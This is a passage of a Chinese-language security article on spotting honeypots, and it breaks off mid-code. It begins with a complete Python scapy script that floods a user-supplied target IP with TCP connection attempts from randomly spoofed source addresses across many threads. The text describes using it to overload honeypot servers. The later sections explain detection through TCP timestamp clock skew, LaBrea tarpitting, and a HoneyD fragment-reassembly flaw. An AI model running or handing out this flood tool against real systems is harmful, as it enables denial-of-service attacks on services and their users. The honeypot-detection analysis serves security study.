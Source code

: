 >
> ```python
> \# coding = utf-8
> from scapy.all import * 
> from threading import Thread,activeCount 
> from random import randint
> 
> class Loop(Thread): 
>     def __init__(self,remoteAddr): 
>         Thread.__init__(self)
>         self.remoteAddr = remoteAddr
> 
>     def run(self): 
>         ip = str(randint(0,255))+'.'\ 
>              +str(randint(0,255))+'.'\
>              +str(randint(0,255))+'.'\
>              +str(randint(0,255))
>         sr1(IP(src = ip,dst = self.remoteAddr)/TCP(dport = 80),retry = 0,verbose = 0,timeout = 3)
> 
> class Main(Thread): 
>     def __init__(self,remoteAddr): 
>         Thread.__init__(self)
>         self.remoteAddr = remoteAddr
> 
>     def run(self): 
>         limit = 140 
>         total = 0
> 
>         while True: 
>             if activeCount() < limit: 
>                 Loop(remoteAddr = self.remoteAddr).start() 
>                 total = total + 1 
>             print 'HTTP Flood Test:',total
> 
> if __name__ == '__main__': 
>     remoteAddr = raw_input('IP=')
>     Main(remoteAddr = remoteAddr).start()
> ```
>
> 我们利用scapy实现了一个简单的http flood的工具，现在我们开始对蜜罐服务器的http服务发动攻击
>
> ```
> python http_flood.py
> ```
>
> 我们同时再去观察蜜罐的响应速度，如果假设正确，此时蜜罐的响应速度应该会大幅度减慢。如果你使用HoneyD或者是LaBrea创建多个蜜罐来组建蜜网的话，只要增加其中一个蜜罐的负载，就可以影响其他蜜罐的运行速度。但是这么干的话，可能会被蜜罐所属的服务器管理员发现，毕竟DDoS动静很大。
>
> （2）数据包时间戳分析
> 如果我们仅通过查看网络数据包能很容易的推断出一个机器的物理属性，我们就很有可能辨别物理服务器和虚拟蜜罐。事实证明，TCP提供了一些直接反映底层服务器状态的信息。TCP时间戳选项被网络堆栈用于确定重传超时时间。机器中的无历史中安特定频率更新时间戳，我们也知道，所有的物理时钟都有一定时钟偏差，他们或多或少于实际运行时间。
> 通过打开一个到主机的TCP链接，并记录为每个连接所提供的时间戳，就可以去观察时间偏差。我们的希望是每个物理系统或者是操作系统显示出来不同的偏差。如果说一个服务器上运行了多个蜜罐的话，就容易出现每一个蜜罐出现相同的时间偏差，这样的话蜜罐就完全暴露了。这种基于对硬件检测的思想也可以在一定程度上去实现检测是不是蜜罐。
>
> （3）分析低交互蜜罐产生的网络响应来寻找差异
> 举个例子，LaBrea试图推迟入站TCP连接，这样做是合法的，但很少用于TCP技术。任何使用Wireshark或者是tcpdump查看连接的人都可以立刻说出正在发生什么事情。如果说蜜罐系统试图欺骗敌手，使他们相信是在和一个真的环境打交道的话，蜜罐系统在网络行为中的任何差异都可以用来检测它。
>
> （4）环境不真实导致穿帮
> 来自Merit网络公司的John Oberheide等人注意到，HoneyD重组IP数据包分片不正确，根据RFC791，通过匹配原地址、目的地址、标识号和协议号来识别对应的分片。不幸的是HoneyD没有正确的实现匹配的步骤，在重组分片数据包时候忘记比较了协议号，出现问题的代码如下：
>
> ```python
> \#define DIFF(a, b) do {
